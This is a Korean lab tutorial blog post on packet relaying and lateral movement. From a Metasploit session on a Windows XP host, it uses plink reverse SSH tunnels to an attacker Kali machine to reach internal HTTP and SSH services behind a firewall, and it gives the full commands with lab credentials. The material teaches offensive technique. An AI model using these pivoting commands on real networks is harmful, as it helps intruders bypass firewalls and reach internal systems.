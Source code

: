 ```yaml
---
title: 패킷 릴레이와 측면 이동
author:
  name: Cotes Chung
  link: https://github.com/cotes2020
date: 2022-05-25 20:00:00 +0800
categories: [Blogging, Network]
tags: [getting started]
pin: false
---
```


## Step1. 환경 구성

---

### 환경 구성

환경 구성은 다음과 같다.

ip가 56번(내부) 대역에서 57번(외부) 대역으로 서비스에 접근할 수 있지만, 57번(외부) 대역에서 56번(내부) 대역으로는 서비스 접속이 안되게 설정한다.

![1](https://user-images.githubusercontent.com/59737252/170284643-3a53495b-bfc3-4dc4-8f44-a36d04208285.png){: width="90%"}

<br>

### 방화벽 구성

방화벽은 다음과 같이 설정한다.

외부에서 내부로 서비스 거부하도록 설정한 것이다.

![2](https://user-images.githubusercontent.com/59737252/170301426-f3f817f4-70f7-4401-9747-f7870859072e.png)

<br>

## Step2. 세션 획득

---

msfconsole을 이용하여 윈도우 xp의 세션을 획득한 후 진행한다.

세션을 얻는 방법은 저번에 사용했던 방법을 참고하면 된다.

<br>

## Step3. 측면 이동

---

### plink 준비

해당 공격을 하기전에 앞서 plink를 윈도우로 옮겨놓는다.

윈도우의 쉘을 얻은 후 plink를 upload 한다.

plink는 윈도우에서 ssh를 사용할 수 있는 도구이다.

<br>

### plink를 사용한 패킷 릴레이

윈도우의 쉘을 얻은 상태에서 아래의 명령어를 입력한다.

```console
C:\WINDOWS\Temp> plink -R 4321:192.168.56.80:80 -l root -pw lab 192.168.57.10
```

명령어를 해석하면 다음과 같다.

plink <span style="background-color: #fff5b1">-R</span> 4321:192.168.56.80:80 -l root -pw lab 192.168.57.10
<br>
R옵션 : 원격시스템에 포트를 연다.

plink -R <span style="background-color: #fff5b1">4321:</span>192.168.56.80:80 -l root -pw lab 192.168.57.10
<br>
4321포트 : 원격시스템에 4321로 포트를 연다.

plink -R 4321:<span style="background-color: #fff5b1">192.168.56.80:80</span> -l root -pw lab 192.168.57.10
<br>
192.168.56.80:80 : 해당 포트(4321)로 접속하게 되면 192.168.56.80의 80번 포트로 포트포워딩 한다.

plink -R 4321:192.168.56.80:80 -l root -pw lab <span style="background-color: #fff5b1">192.168.57.10</span>
<br>
192.168.57.10 : ssh로 접속할 서버 주소이다.

<br>

그러면 결과적으로 다음과 같은 구도를 나타낸다.

![3](https://user-images.githubusercontent.com/59737252/170305911-2ae28d03-e41a-4918-9383-af94c96a1c81.png){: width="70%"}

<br>

### plink 사용 (80번 포트)

plink를 사용하여 측면이동을 시도한다.

```console
C:\WINDOWS\Temp> plink -R 4321:192.168.56.80:80 -l root -pw lab 192.168.57.10
```

![4](https://user-images.githubusercontent.com/59737252/170306576-f8244884-6e23-4efd-a896-65032580c1fe.png)

그러면 root@kali 로 나오게 된것을 볼 수 있는데

이것은 윈도우에서 칼리로 ssh를 이용해 접속하였기 때문에 그렇다.

<br>

### 포트 확인

```console
kali# netstat -atunp | grep 4321
```

netstat를 이용하여 4321번 포트가 열려있는지 확인한다.

![5](https://user-images.githubusercontent.com/59737252/170307424-ab86eec3-01fa-4f27-949a-75704c0acfac.png)

<br>

### 포트포워딩 확인

자기 자신(localhost)으로 접속하여 포트포워딩이 되는지 확인한다.

192.168.56.80으로 시도하면 방화벽으로 인해 접속이 안되지만

![7](https://user-images.githubusercontent.com/59737252/170308511-b67a2bb6-f3f4-4f6b-a45e-fca68791d35c.png){:width="95%"}

<br>

localhost:4321으로 접속하면 포트포워딩으로 인해 접속이 되는것을 볼 수 있다.

![6](https://user-images.githubusercontent.com/59737252/170307908-3e6e7eed-36a8-4152-a753-aaa5cc6fa9b2.png){:width="95%"}

<br>

tail 명령을 사용하여 로그를 살펴볼수도 있다.

```console
centos# tail -f /var/log/httpd/access_log
```

<br>

### plink 사용 (22번 포트)

같은 방법으로 22번인 ssh를 이용하여 사용해본다.

물론 centos에 ssh 서비스가 실행되어 있어야 한다.

```console
C:\WINDOWS\Temp> plink -R 2222:192.168.56.80:22 -l root -pw lab 192.168.57.10
```

```console
kali# ssh root@localhost -p 2222
```

![8](https://user-images.githubusercontent.com/59737252/170310764-6be2e501-cf2a-43fb-83b5-3d5d3ebdafcc.png)

